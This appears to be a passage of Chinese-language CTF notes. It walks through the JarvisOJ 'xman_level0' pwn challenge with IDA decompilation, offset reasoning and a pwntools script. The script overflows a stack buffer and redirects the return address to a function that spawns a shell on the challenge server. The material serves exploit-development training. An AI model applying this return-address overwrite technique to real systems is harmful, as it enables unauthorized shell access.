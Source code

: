 通常定义变量时 后面跟 一个 bp 大小(8bytes/64 位, 4bytes/32 位)

ldd filename 通过 ldd 查找 libc 共享库

## 练习

#### 1. 内存泄漏

1.内存泄漏 xman_level0 [file](https://dn.jarvisoj.com/challengefiles/level0.b9ded3801d6dd36a97468e128b81a65d)

    nc pwn2.jarvisoj.com 9881
    # 覆盖 填充长度 + 一个bp 大小(8bytes)

思路：

扔进 IDA 看 strings, 有 bin/sh, 进入按 X，看函数调用地址。

左侧函数窗口，看 main 函数

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      write(1, "Hello, World\n", 0xDuLL);
      return vulnerable_function();
    }

看 vulnerable_function

    ssize_t vulnerable_function()
    {
      char buf; // [rsp+0h] [rbp-80h] # 读buf 占 0x80，双击进入，
      return read(0, &buf, 0x200uLL); # 就读入 0x200， 即16*16*2 =512个bytes
    }

    # buf
    -0000000000000002                 db ? ; undefined
    -0000000000000001                 db ? ; undefined
    +0000000000000000  s              db 8 dup(?)
    +0000000000000008  r              db 8 dup(?) # 存放返回地址， 多空余0x8字节，加上前面的0x80字节，就是0x88个字节

read 可以读入 0x200，即 512 个字符，而从 buf 到 vulnerable_function 的返回地址只有 0x80+0x8,即 136 个字节 < 512，因此可以覆盖 vulnerable_function 的返回地址为 call_system 函数地址，即可 getshell

```python
# -*- coding:utf-8 -*-
from pwn import *

sh = remote("pwn2.jarvisoj.com",9881)
junk = 'a'*0x80 # 随意填充0x80个，


fakebp = 'a'*8 # 看char buf，双击进buf，最下面还有8个bytes
syscall = 0x0000000000400596 # ida 查看 exports 填入地址
payload = junk + fakebp + p64(syscall) # 正常是vulnerable_function()返回地址，我们这里覆盖为syscall地址，得到shell
sh.send(payload)
sh.interactive()

```
